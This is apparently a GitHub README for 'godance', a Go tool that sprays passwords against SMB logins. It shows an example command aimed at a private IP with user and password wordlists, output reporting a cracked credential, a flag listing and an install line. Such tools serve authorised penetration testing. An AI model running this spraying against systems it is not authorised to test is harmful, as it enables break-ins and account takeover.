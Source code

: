 ```
  ___ ____  ___/ /__ ____  _______    
 / _ '/ _ \/ _  / _ '/ _ \/ __/ -_)   
 \_, /\___/\_,_/\_,_/_//_/\__/\__/    
/___/
```


# godance - A password spraying SMB bruteforcer

SMB password sprayer

```
$ godance -h 192.168.75.173 -u users.txt -w passwords.txt -d WORKGROUP -t 200   
 
  ___ ____  ___/ /__ ____  _______    
 / _ '/ _ \/ _  / _ '/ _ \/ __/ -_)   
 \_, /\___/\_,_/\_,_/_//_/\__/\__/    
/___/

-----------------------------------------------------
 [*] Number of usernames: 4242
 [*] Number of passwords: 4
 [*] Test cases: 16968
 [*] Number of threads: 200
-----------------------------------------------------
 [*] In hacker voice *I'm in* // Username: pystyy // Password: vetaa

```

## Usage


```
Usage of godance:
  -d string
    	Domain
  -h string
    	Target host
  -p int
    	Target port (default 445)
  -t int
    	Number of threads (default 20)
  -u string
    	User wordlist
  -v	Debug
  -w string
    	Password list
```

## Installation

 - If you have go compiler installed: `go get github.com/joohoi/godance`

